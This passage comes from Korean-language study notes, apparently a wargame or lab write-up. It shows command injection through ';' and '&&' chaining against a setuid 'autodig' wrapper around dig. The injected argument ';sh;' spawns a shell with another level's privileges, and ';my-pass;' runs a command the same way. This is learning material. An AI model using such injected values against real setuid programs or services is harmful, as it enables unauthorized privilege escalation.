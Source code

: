      `autodig "168.126.63.1 www.naver.com"`

     ![1572591403173](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572591403173.png)

     ​	→ argc = 2

     ​	→ `dig @168.126.63.1 naver.com` 가 실행됨



3. 첫번째 공격

   > ; 를 이용한 공격

   - `;`, `&&` : 명령어를 자동으로 이어서 실행 가능 (앞 명령어가 끝나면 뒷 명령어가 실행되는 방식)

     - `pwd; id; ls -ld /etc`

       ![1572668178064](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668178064.png)

       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행

       
     
     - `pwddd; id; ls -ld /etc`
     
       ![1572668385934](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668385934.png)
     
       ​	→ `;` 를 이용한 명령어는 앞 명령어가 틀려도 뒷 명령어 실행 가능
     
       
     
     - `pwd && id && ls -ld /etc`
     
       ![1572668279714](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668279714.png)
     
       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행
     
       
     
     - `pwddd && id &&& ls -ld /etc`
     
       ![1572668468868](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668468868.png)
     
       ​	→ `&&` 를 이용한 명령어는 앞 명령어가 틀리면 뒷 명령어 실행 불가능
     
       
     
   - `autodig "168.126.63.1 www.naver.com;sh;"`

     ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668846691.png)

     ​	→ `dig 168.126.63.1 www.naver.com;sh; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `sh`는 level 4의 권한으로 실행된다

     

   - `autodig "168.126.63.1 www.naver.com;my-pass;"`

     ![1572668920547](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668920547.png)

     ​	→ `dig 168.126.63.1 www.naver.com;my-pass; version.bind chaos txt` 를 실행한 결과와 같음

